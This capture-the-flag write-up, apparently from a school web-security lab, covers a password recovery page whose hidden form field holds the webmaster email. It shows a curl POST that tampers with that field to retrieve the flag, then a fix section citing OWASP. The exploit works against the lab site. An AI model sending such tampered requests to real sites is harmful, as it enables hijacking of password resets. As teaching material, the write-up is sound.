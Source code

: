 # Gibbe password pls

## Exploit
On the password recovery page `${URL}/?page=recover` we can see a hidden form containing the webmaster email.
```html
<form action="#" method="POST">
        <input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
        <input type="submit" name="Submit" value= "Submit">
</form>
```

We'll exploit this by sending a POST request with our own email using cURL.
```shell
$ curl -s -X POST --data "mail=xperrin@student.42.fr&Submit=Submit" "${URL}/?page=recover" | grep -i flag
<center><h2 style="margin-top:50px;"> The flag is : [REDACTED]</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
```

## Fix
[OWASP](https://owasp.org/www-community/attacks/Web_Parameter_Tampering)
The server should never assume that the data the client sent is trustworthy and should validate every argument.
Here it shouldn't let the user specify a mail address at all and should instead retrieve it server-side.
Also, hidden fields should never be used with secure information.

